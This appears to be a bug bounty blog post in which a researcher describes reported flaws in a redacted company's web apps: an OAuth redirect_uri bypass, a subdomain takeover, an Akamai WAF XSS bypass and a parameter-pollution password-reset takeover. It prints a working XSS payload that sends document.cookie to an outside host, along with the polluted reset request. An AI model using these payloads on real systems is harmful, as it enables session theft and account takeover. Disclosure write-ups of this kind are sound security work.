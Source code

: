 ```yaml
---
layout:	"post"
categories:	"blog"
title:	"How I earned 60K+ from private program"
date:	2018-04-25
thumbnail:	/img/1h86As8FAHN4QE0TWziLETg.jpeg
author:	siva
---
```


* * *

Hey there!

I am not a security researcher that you often come across in the security
community. I am Siva. Like every bug hunter I began my journey by reading
security write ups, books and hackerone reports. After doing all that I still
can't find a good bug in websites. Like how you search subdomains, I started
searching for bug bounty programs that aren't on hackerone or atleast not in
the eyes of community.

 **intext: "Responsible Disclosure Policy"**

Results came up and I found a lot of them are on H1 already. And finally
choosen a Indian (❤) company as a target. Assume it as redacted.com since they
told me not to disclose the bugs publicly.

Though I found multiple bugs. I am not interested in usual bugs. I will be
sharing only special ones.

  1.  **Redacted.com** consists of a number of apps running in various sub-domains and it uses Oauth2 to implement authentication to all those apps. You know what anyone does when there is a oauth2. Replaced redirect_uri with <http://evil.com> and result is "The redirect_uri is not registered with client". So while I was looking at burp logs.

Usual oauth authorisation endpoint was like
[https://sub.redacted.com/oauth2/authorize](https://redacted.com/oauth2/authorize)?param=X&redirect_uri=https://sub.redacted.com/?code=

To my wonder I found another end point in burp log related to oauth2. It is
like

[https://sub.redacted.com/oauth2/l](https://redacted.com/oauth2/authorize)ogin?param=X&redirect_uri=https://sub.redacted.com/?code=

Changed the redirect_uri and this time it worked. I reported it immediately
and got a quick response from the team.

The next day I was awarded some 13k. Got first bounty ❤ . [Remeber how you
felt when you got your first one.]

Out of excitement I fired burp suite again. Found an XSS again [Keep a note of
this ] . Reported.

 **2\. Subdomain Takeover:**

>>Virustotal.com

searched redacted.com and got a list of subdomains. I checked for alias of all
subdomains and found a subdomain pointing somedomain.com which was an expired
domain. There is an email on the main page saying contact to buy.

Okay! I sent a mail to that guy asking the price of the subdomain.com and he
was like :

" Man! I had breakup with my girl and I need a ring to give her and get her
back in my life! How much can you give?"

![](/img/1h86As8FAHN4QE0TWziLETg.jpeg)

I reported this to the program and they credited some more amount in my
account.

 **3\. XSS filter Bypass:**

This is my great finding *Appreciating myself* . So there is sub-domain that
is reflecting any parameters on the page. Okay! Injected some HTML content.
Got rendered on the page. Inserted some javascript into the param. Got this

![](/img/1zjBJjZdpDHptP_s1P6I5jg.png)

Response. Btw it's not ebay.com :P

Okay! Deduction! It's using Akamai WAF. Couldn't find any bypasses relevant to
my case. So I am checking different vectors. After trying different vectors I
got some conclusions. The vector I use should not contain

  * Keywords : Javascript,alert,confirm,prompt,event handlers.
  * No parentheses.
  * No native method calling like document.cookie()

After some research over the internet, I found a way to bypass this case. The
following vector does the bypass work. If you came across akamai WAF, may the
following vector bypasses it.

 **< object onafterscriptexecute={window['location']="//**[
**dontknowsss.com/**](http://dontknowsss.com/) **? "%2bdocument['cookie']}>**

This allows cookie stealing directly, it's not just a simple alert(1). I would
suggest you to use this kind of POC.

Reported this and got bucks for this as well.

 **4\. HPP account takeover**

If you don't know what HTTP parameter pollution is, Check it out [here at
OWASP](https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_
%28OTG-INPVAL-004%29). OWASP is really a best place to learn about all kinds
of attacks possible on web applications. [ Go right now if your are new to
this ].

Coming to the bug I found. One of the sub-domain hosts a application that has
retail user panel. All retail users can login over there and do stuff. I
created account on it and before logging in, I wanted to test the forgot
password functionality. :P

I turned on burp intercept mode to tamper data. What anyone will test with
forgot password functionality. Added a header X-Forwarded-Host: test.com to if
the reset link gets modified to test.com/token. But Nope! it didn't. It had a
single parameter i.e.;

 **email=owner12@domain.tld**

I did HPP with this and it was like

 **email=owner12@domain.tld &email=attacker@yopmail.com**

And I got reset link in both the email. This way I was able to compromise all
the retail users selling on the website. They paid me highest for this issue.

I think it already became too long for readers to read this article. I would
like to stop here and post my other findings in future posts.

 **PS: The 60k is in INR not in USD  :P**

 **Special Notes:**

I would like to thank all great people who contributed to the community and
shared their value attack strategies.

I learnt all these stuff because someone shared something. I thought now it's
my turn to contribute to community. So I did.

Please share your knowledge and help the community. Sharing is Caring.

If you are a newbie and wanted to learn everything from basics my DM is always
open [twitter/le4rner](https://twitter.com/le4rner) to get information about
learning stuff.

Happy Hunting,

[Siva Krishna.](https://twitter.com/le4rner)

